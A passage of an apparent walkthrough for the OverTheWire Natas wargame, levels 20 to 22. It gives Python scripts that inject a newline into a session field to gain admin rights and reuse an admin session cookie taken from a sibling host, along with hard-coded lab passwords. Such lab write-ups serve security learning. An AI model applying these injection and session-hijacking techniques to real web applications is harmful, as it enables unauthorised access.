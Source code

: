 1. Log in using the username `natas20` and the password from Level 19.

2. POST a `name` value that contains a newline followed by `admin 1` (for example: `plzsub\nadmin 1`), then request the page and read the admin-only content.

3. Sample script:

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import requests

username = "natas20"
password = "p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw"

url = f"http://{username}.natas.labs.overthewire.org/?debug=true"

session = requests.Session()

# initial GET
resp = session.get(url, auth=(username, password), timeout=10)
print(resp.text)
print("=" * 80)

# POST payload (subscribe + admin toggle)
resp = session.post(url, data={"name": "plzsub\nadmin 1"}, auth=(username, password), timeout=10)
print(resp.text)
print("=" * 80)

# final GET to observe changes
resp = session.get(url, auth=(username, password), timeout=10)
print(resp.text)
print("=" * 80)
```
The password for the next level will be found in the content of the page.

### Natas Level 21 → Level 22
**Key Takeaways**  
This level is quite similar to the previous one. Just change the URL just a bit.

**Procedure**

1. Log in using the username `natas21` and the password from Level 20.

2. Sample script (Credits: Dr4ks): https://github.com/Dr4ks/Natas_Labs_Solution

```
import requests

target = 'http://natas21.natas.labs.overthewire.org'
auth = ('natas21', 'BPhv63cKE1lkQl04cE5CuFTzXe15NfiH')

exp_tar='http://natas21-experimenter.natas.labs.overthewire.org/?debug=true&submit=1&admin=1'


#First POST request to get session of admin from exp_tar
session=requests.Session()
response = session.post(exp_tar, auth=auth)
admin_session = session.cookies['PHPSESSID']
print(response.text)


#Second request to be admin
response = requests.get(target, auth=auth,cookies={"PHPSESSID":admin_session})
print(response.text)
```